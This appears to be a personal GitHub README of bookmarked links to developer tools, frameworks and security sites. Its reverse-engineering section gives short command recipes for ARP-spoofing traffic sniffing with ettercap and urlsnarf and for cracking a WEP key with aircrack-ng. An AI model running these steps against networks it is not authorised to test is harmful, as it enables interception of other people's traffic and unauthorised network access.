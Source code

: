 # Links

awesome people:
- https://twitter.com/ajlkn is a skillful designer  
- https://github.com/spatie is a php agency producing high quality & widely used packages  
- https://codeblog.jonskeet.uk/ was an architect at c#
- https://www.joelonsoftware.com/ founded stackoverflow

tools:
- http://https//notepad-plus-plus.org/ as a fast editor for windows
- http://www.visualstudio.com/ as a C# IDE for windows
- http://www.jetbrains.com/ as an IDE for all platforms
- http://code.visualstudio.com/ as an editor for all platforms
- http://www.sublimetext.com/ as another editor

mobile frameworks:
- http://cordova.apache.org/
- http://ionicframework.com/

static analysis:
- http://fbinfer.com/
- https://flow.org/

basic tools:
- ninite.com
- easeus partition master
- windirstat
- speccy
- httptrack

## php

resources:
- http://www.phptherightway.com/

frameworks:
- http://symfony.com/
- http://www.slimframework.com/
- http://laravel.com/
- http://cakephp.org/

## C#

compilers:
- https://www.xamarin.com/

## Frontend

- https://tympanus.net/codrops/

## reverse engineering

hashes:
- http://crackstation.net/

toolkits:
- http://www.exploit-db.com/
- https://www.kali.org/
- https://www.metasploit.com/

programs:
- Reflector & FileDissassembler (dissassemble .NET)
- IDA Pro
- netcut/tuxcut
- no-ip DUC
- cheatengine
- firesheep
- Cain & Abel
- SMAC 2.7
- colasoft mac scanner pro
- wireshark
- John the Ripper
- winpccap
Jasager


ettercap:
- configure `etter.conf` (UID = 0, GID = 0, exclude iptables)
- `ettercap -T -Q -M arp:remote -i <wlandevice>`
- `urlsnarf -i <wlandevice>`

aircrack:
- `airmon-ng check kill` to finishes all processes that may interfer
- `airmon-ng start <wlandevice>` to generate new virtual monitordevice
- `airdoump-ng <monitordevice>` to dump all incoming packages
- `airodump-ng -w wep -c <channel> --bssid <macadress> <monitordevice>` to connect to the target network
- `aireplay-ng -3 -a <macadress> <monitordevice>` to generate additional traffic
- `aireplay-ng -1 0 -b <macadress> <monitormode>` to capture ARP packets and generate even more traffic
- `ls` to find name of the `.cap` file with the collected traffic
- `aircrack-ng <packetname>` to decrypt the key

pentesting:
- http://www.enigmagroup.org/
- https://www.hackthissite.org/
- http://www.happy-security.de/